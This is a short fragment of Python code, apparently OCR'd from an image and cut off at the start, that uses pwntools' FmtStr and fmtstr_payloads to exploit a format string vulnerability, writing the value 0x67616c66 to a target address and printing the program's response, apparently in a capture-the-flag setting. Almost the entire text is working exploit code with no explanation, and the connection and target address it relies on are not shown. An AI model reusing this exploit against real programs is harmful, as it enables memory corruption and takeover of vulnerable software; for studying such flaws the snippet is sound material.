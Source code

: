 ```py
    p.sendline(payloads)
    return p.recvall()

# Initializes a FmtStr object and analyzes the format string vulnerabilities
autofmt = FmtStr(send_payloads)

# Sets the offset
offset = autofmt.offset

payloads = fmtstr_payloads(offset, {addr: 0x67616c66})

print(f"Payloads: {payloads}")

p.sendline(payloads)

output = p.recvall()

print(output)
```
